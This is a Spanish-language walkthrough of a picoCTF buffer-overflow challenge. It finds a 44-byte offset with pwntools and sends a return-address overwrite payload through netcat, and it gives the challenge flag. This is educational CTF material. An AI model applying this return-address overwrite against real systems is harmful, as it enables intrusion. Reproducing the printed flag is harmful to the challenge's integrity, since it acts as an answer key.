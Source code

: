 ## Descripción

Control the return address Additional details will be available after launching your challenge instance.

## Pistas

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solución

```python()
1. Como podemos ver en el codigo, el bufer que almacena la contraseña, tiene un tamaño de 32.
2. Al pasar este tamaño, nos lleva a `0x6161616c`, que es el la direccion de retorno, ya que la cadena ingresada es mayor al limite
3. Ahora debemos encontrar que caracteres sobreescribieron el buffer, para eso utilizaremos:

from pwn import *
cyclic_find(0x6161616c)

44

4. Entonces, `44` son los digitos que tenemos que intruducir antes de ingresar la direcion de retorno
5. Con esta información corremos el programa e introducimos lo siguiente:

echo '00000000000000000000000000000000000000000000\xf6\x91\x04\x08' | nc saturn.picoctf.net 63715 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}  

6. La dirección que ingresamos, nos lleva a la bandera.
```

## Bandera

picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas adicionales